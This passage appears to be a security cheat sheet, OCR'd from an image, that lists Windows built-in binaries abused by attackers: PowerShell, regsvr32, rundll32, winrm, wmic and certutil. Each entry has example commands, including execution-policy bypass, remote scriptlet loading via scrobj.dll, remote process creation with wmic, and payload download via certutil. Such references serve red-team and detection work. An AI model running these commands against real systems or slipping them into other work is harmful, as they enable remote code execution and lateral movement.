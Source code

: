 -   Description: The most well known and most useful attacker utility.
    Powershell can be operated in console mode, with commands provided on the
    command line or through passing a ps1 file containing commands.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: powershell -c calc
  Example: powershell -exec bypass -File test.ps1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### regsvr32.exe

-   Description: Command-line tool that registers dll files as command
    components in the registry. Notable for its use to bypass UAC and useful as
    it supports remote DLL retrieval with scrobj.dll. No arguments need to be
    supplied to regsvr32 if the dll exports the function DllRegisterServer.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: regsvr32 /s /n /u /i:[URL] scrobj.dll
  Example: regsvr32 payload.dll
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### rundll32.exe

-   Description: Loads and runs DLLs. Three parameters are typically used, the
    DLL to be executed, the function within the DLL to call and any arguments.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: rundll32 SHELL32.DLL,ShellExec_RunDLL "calc"
  Example: rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";alert('test');
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### winrm.exe

-   Description: WinRM, or Windows Remote Management provides the ability to
    remotely execute wmi commands. The winrm service is disabled by default but
    can be enabled.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: winrm qc -q & winrm i c wmicimv2/Win32_Process @{CommandLine="calc"}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### wmic.exe

-   Description: Command line tool for WMI.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: wmic process call create "cmd.exe /c calc"
  Example: wmic /node:[targetIPaddr] /user:[admin] process call create "cmd.exe /c [command]"
  Example: wmic os get /format:"https://server/payload.xsl
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### certutil.exe

-   Description: Allows you to download a payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: certutil -ping [URL]
  Example: certutil -urlcache -split -f [URL] [output-file]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
